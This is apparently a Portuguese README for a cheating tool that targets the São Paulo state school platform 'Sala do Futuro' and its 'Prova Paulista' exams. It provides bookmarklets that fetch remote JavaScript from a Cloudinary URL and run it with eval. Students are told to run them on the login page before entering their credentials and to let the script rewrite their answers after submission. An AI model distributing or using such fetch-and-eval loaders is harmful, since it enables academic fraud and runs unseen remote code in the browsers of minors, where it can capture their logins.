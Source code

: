 # 🚀 HCK - PROVA PAULISTA 

## HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## HCK - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```
## Instalação (TAREFAS)

1. Clique nos **três pontinhos** no canto **superior direito** do navegador.

3. Clique novamente nos **três pontinhos** e vá até **Favoritos**.
4. Localize o **favorito que você salvou**, clique nos **três pontinhos** ao lado dele e **selecione Editar**.
5. No **campo Nome**, coloque algo fácil de lembrar (ex: TAREFAS).
6. No **campo URL**, apague o que estiver lá e cole o código do script que está logo acima **(HCK - TAREFAS).**
7. **Salve as alterações**.
8. Acesse a plataforma **[Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos)**
9. **Antes de preencher** login e senha, apague a URL atual, **digite o nome do favorito que você salvou (ex: TAREFAS) e clique nele.**
10. **Algumas notificações** vão aparecer no canto inferior da tela (normal), **depois disso faça o login normalmente**, entre na **tarefa que você quer fazer**, responda **tudo aleatoriamente e envie a tarefa**, após enviar o script **vai corrigir tudo automaticamente e responder todas corretamentes**.

## A questão do tempo, como fica?

*R: Isso depende unicamente de quanto tempo você permanecer na página da tarefa antes de enviá-la.*

### [Discord: hackermoon](https://discord.gg/snWEnnWF)

## Créditos:

- [@inallep](https://github.com/inacallep)
- [@crackingnlearn](https://github.com/crackingnlearn)
- [@miturufu](https://github.com/Miturufu)
